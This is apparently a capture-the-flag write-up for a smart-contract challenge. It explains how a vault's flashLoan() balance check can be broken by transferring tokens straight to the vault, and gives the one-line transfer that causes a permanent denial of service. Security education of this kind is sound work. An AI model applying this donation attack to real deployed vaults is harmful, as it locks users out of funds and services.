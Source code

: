 
# Solution:

it was Really Painful that at the end i find out, this Challenge can be Done only With one Line of code: (it took me 1.5 day to solve it, and i Founded by my Own Without Looking Online Solutions, so it was really painful...)

```
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣀⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡤⠖⠚⠉⠁⠀⠀⠉⠙⠒⢄⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⢀⠔⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⢢⡀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⡰⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⣆⠀⠀
⠀⠀⠀⠀⠀⢠⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢇⠀
⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⡄
⠀⠀⠀⠀⢸⠄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇
⠀⠀⠀⠀⠸⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠇
⠀⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡘
⠀⠀⠀⠀⠀⢻⠀⠀⠀⠀⠀⠀⠀⢀⣴⣶⡄⠀⠀⠀⠀⠀⢀⣶⡆⠀⢠⠇
⠀⠀⠀⠀⠀⠀⣣⠀⠀⠀⠀⠀⠀⠀⠙⠛⠁⠀⠀⠀⠀⠀⠈⠛⠁⡰⠃⠀
⠀⠀⠀⠀⢠⠞⠋⢳⢤⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠜⠁⠀⠀
⠀⠀⠀⣰⠋⠀⠀⠀⢷⠙⠲⢤⣀⡀⠀⠀⠀⠀⠴⠴⣆⠴⠚⠁⠀⠀⠀⠀
⠀⠀⣰⠃⠀⠀⠀⠀⠘⡇⠀⣀⣀⡉⠙⠒⠒⠒⡎⠉⠀⠀⠀⠀⠀⠀⠀⠀
⠀⢠⠃⠀⠀⢶⠀⠀⠀⢳⠋⠁⠀⠙⢳⡠⠖⠚⠑⠲⡀⠀⠀⠀⠀⠀⠀⠀
⠀⡎⠀⠀⠀⠘⣆⠀⠀⠈⢧⣀⣠⠔⡺⣧⠀⡴⡖⠦⠟⢣⠀⠀⠀⠀⠀⠀
⢸⠀⠀⠀⠀⠀⢈⡷⣄⡀⠀⠀⠀⠀⠉⢹⣾⠁⠁⠀⣠⠎⠀⠀⠀⠀⠀⠀
⠈⠀⠀⠀⠀⠀⡼⠆⠀⠉⢉⡝⠓⠦⠤⢾⠈⠓⠖⠚⢹⠀⠀⠀⠀⠀⠀⠀
⢰⡀⠀⠀⠀⠀⠀⠀⠀⠀⢸⠁⠀⠀⠀⢸⠀⠀⠀⠀⡏⠀⠀⠀⠀⠀⠀⠀
⠀⠳⡀⠀⠀⠀⠀⠀⠀⣀⢾⠀⠀⠀⠀⣾⠀⠀⠀⠀⡇⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠈⠐⠢⠤⠤⠔⠚⠁⠘⣆⠀⠀⢠⠋⢧⣀⣀⡼⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠈⠁⠀⠀⠀⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀
```

Lets take A Look At `flashLoan()` function:

```javascript
    function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
            external
            returns (bool)
        {
            if (amount == 0) revert InvalidAmount(0); // fail early
            if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
            uint256 balanceBefore = totalAssets();

            if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

            // transfer tokens out + execute callback on receiver
            ERC20(_token).safeTransfer(address(receiver), amount);

            // callback must return magic value, otherwise assume it failed
            uint256 fee = flashFee(_token, amount);
            if (
                receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                    != keccak256("IERC3156FlashBorrower.onFlashLoan")
            ) {
                revert CallbackFailed();
            }

            // pull amount + fee from receiver, then pay the fee to the recipient
            ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
            ERC20(_token).safeTransfer(feeRecipient, fee);

            return true;
        }
```

ignore first two Checks, there's nothing You can do about it.

the Vulnerablity is in third check:

```javascript
    uint256 balanceBefore = totalAssets();

    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();
```

starting `totalSupply` of is: `1000000000000000000000000`.
starting `totalAssets` of is: `1000000000000000000000000`.

`convertToShares()` function does this:

```javascript
    function convertToShares(uint256 assets) public view virtual returns (uint256) {
        uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
            
        return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
    }
```

our `totalSupply` is not `0`, so this part of the code will execute:

```javascript
    assets.mulDivDown(supply, totalAssets());
```

which will result in:

```javascript
    // (assets * supply) / totalAssets()
    (1000000000000000000000000 * 1000000000000000000000000) / 1000000000000000000000000 = 1000000000000000000000000;
```

lets go back to the if Statement:

```javascript
    if (1000000000000000000000000 != 1000000000000000000000000) revert InvalidBalance();
```

all We Have to Do is Manipulate the `totalAssets()` value to make this contract vulnerable to `DOS`, which will Result in Reverting Whenever the `flashLoan()` function is called.

How we can do that? 

Go to the `Unstoppable.t.sol` and Add the Line Below to the `test_unstoppable()` test:

```javascript
    token.transfer(address(vault), 10e18);
```

now `totalAssets()` returned Value is: `1000010000000000000000000`

which will make the if statement to `revert()` everytime the `flashLoan()` function is Called, Because:

```javascript
    if (1000000000000000000000000 != 1000010000000000000000000) revert InvalidBalance();
```

Now One Thing to Note is, You cannot Manipulate the `totalAssets()` value or `convertToShares(totalSupply)` with `deposit()` function because mints the `receiver` address amount of shares
Which Makes the if statement condition to be `false` because `totalAssets()` and `convertToShares(totalSupply)` Values Will be Always Equal.